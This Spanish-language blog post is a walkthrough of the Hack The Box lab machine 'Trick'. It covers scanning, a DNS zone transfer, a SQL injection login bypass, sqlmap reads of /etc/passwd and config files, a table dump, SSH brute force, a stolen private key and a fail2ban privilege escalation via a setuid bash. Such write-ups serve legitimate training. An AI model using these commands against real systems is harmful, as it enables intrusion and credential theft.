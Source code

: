 ```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | Trick              |
| Os                     | Linux              |
| Difficulty             | Easy               |
| Points                 | 20                 |
| IP                     | 10.10.11.166       |

## [](#header-2)Reconocimiento

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/Trick/scan1.png)

### [](#header-3)NMAP   

El primer escaneo rápido con nmap, para poder agilizar mientras más búsquedas o búsqueda de vulnerabilidades sobre esos puertos.

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv 10.129.38.26
```

![nmap 1](/assets/images/Trick/nmap1.png)

El segundo escaneo, ya un poco más profundo será:

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.38.26 -oG allPorts
```

![nmap2](/assets/images/Trick/nmap2.png)

Después de tener los puertos, se puede hacer un escaneo ahora directo a los puertos con:

```s
sudo nmap -sCV -p22,25,53,80 10.129.38.26 -oN targeted
```

![nmap3](/assets/images/Trick/nmap3.png)

Intentemos ver a donde mas se direccionan los paquetes con el dns del puerto 53 con el comando:

```s
sudo dig @10.129.71.116 trick.htb axfr
sudo dig @10.129.71.116 preprod-payroll.trick.htb axfr
sudo dig @10.129.71.116 root.trick.htb axfr
```

Hemos encontrado mas dominios potenciales, pero para que no se nos escape ninguno, agregaremos un filtrado con:

```s
sudo dig @10.129.71.116 trick.htb axfr | grep -oE '(\w+\.)?\w+\.htb' | sort -u | tr '\n' ' '
```

```s
sudo cat urls | feroxbuster --auto-tune --extract-links --random-agent --stdin --output trick.feroxbuster --threads 100 --wordlist /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

```s
wfuzz -c --hc=404 --hw=55,83 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -H "Host: FUZZ.trick.htb" http://10.129.71.116
```

Para el dominio preprod-payroll.trick.htb, hay un loggin page. El cual intentaremos cruzar con un SQLI con burpsuite de la siguiente forma:

![SQLI](/assets/images/Trick/SQLI.png)

Una vez dentro, tenemos acceso como administrador. Veamos que podemos encontrar aqui.
En el apartado de users, en la opcion de editar las configuraciones del usuario, la contrasena no es visible pero si inspeccionamos el codigo de la pagina, podremos verla.

![user password](/assets/images/Trick/user_psswd.png)

value="SuperGucciRainbowCake"

Sigamos enumerando informacion con sqlmap ahora.

Agregamos un usuario de prueba y lo interceptamos con burp. 

```s
sqlmap -r add-employee.req --batch --dbms mysql --threads 10 --username
sqlmap -r add-employee.req --batch --dbms mysql --threads 10 --file-read=/etc/hostname
sqlmap -r add-employee.req --batch --dbms mysql --threads 10 --file-read=/etc/passwd
sqlmap -r add-employee.req --batch --dbms mysql --threads 10 --current-user
sqlmap -r add-employee.req --batch --dbms mysql --threads 10 --tables
sqlmap -r add-employee.req --batch --dbms mysql --threads 10 --os-shell
sqlmap -r add-employee.req --batch --dbms mysql --threads 10 --second-order "http://trick.htb"
sqlmap -r add-employee.req --batch --dbms mysql --threads 10 --dbs
sqlmap -r add-employee.req --batch --dbms mysql --threads 10 --all
sqlmap -r add-employee.req --batch --dbms mysql --threads 10 -D payroll_db -T users --columns
sqlmap -r add-employee.req --batch --dbms mysql --threads 10 -D payroll_db -T users -C id,name,password,username --dump
#Dump column
users
```

Una vez que tenemos el archivo etc/passwd, para filtrar los usuarios existentes podemos hacer un:

```s
cat _etc_passwd | grep sh$
```

![users](/assets/images/Trick/users.png)

Para intentar entrar por fuerza bruta con ssh, usaremos:

```s
sudo crackmapexec ssh 10.10.11.166 -u users -p password
```

Como no se pudo entrar con las credenciales anteriores, intentaremos enumerar mas informacion:

```s
sqlmap -r add-employee.req --batch --dbms mysql --threads 10 --file-read=/etc/nginx/nginx.conf
sqlmap -r add-employee.req --batch --dbms mysql --threads 10 --file-read=/etc/nginx/sites-enabled/default
```

![ngnix](/assets/images/Trick/ngnx.png)

Encontramos ahora otro subdominio http://preprod-marketing.trick.htb/.
Para entender un poco como funciona, de igual forma con sqlmap podemos traernos el index de /var/www/market/index.js y veremos que para el desplazamiento de paginas, hace una redireccion, asi que podremos hacer un path trasversal de la siguiente manera:

![path test](/assets/images/Trick/path_test.png)

Con este metodo podemos llegar a la flag de usuario

Despues para poder conectarnos remotamente, sera necesario acceder al directorio del /.ssh/id_rsa y copiarnoslo para poder entrar con esa llave privada.

![michael_own](/assets/images/Trick/michael_own.png)

Ahora en el Escritorio, encontramos un script que hace una llamada a una aplicacion llamada fail2ban. Tambien con un sudo -l podemos ver que se tiene permiso como root para este usuario para ejecutar la aplicacion en el reinicio. Y de acuerdo con el <a href="https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/">articulo</a> lo siguiente seria hacer:

Lo primero sera ir al archivo que se encuentra dentro de /etc/fail2ban/actions.d/iptables-multiport.conf y modificarlo, en la linea de actionunban= o actiontoban= ,como es muy tedioso por usar el vi y por que se borran los archivos. 

```s
chmod u+s /bin/bash
```

Despues solamente tenemos que reiniciar el servicio, y al mismo tiempo usar potator de la manera siguiente:

```s
sudo /etc/init.d/fail2ban restart
```

```s
patator ssh_login host=10.10.11.166 user=FILE0 password=FILE1 0=/usr/share/seclists/Usernames/mssql-usernames-nansh0u-guardicore.txt 1=/usr/share/seclists/Passwords/2020-200_most_used_passwords.txt```

Despues solamente habra que hacer un:

```s
bash -p
```

Y habremos ganado el root

![root](/assets/images/Trick/root.png)

![Powned](/assets/images/Trick/powned.png)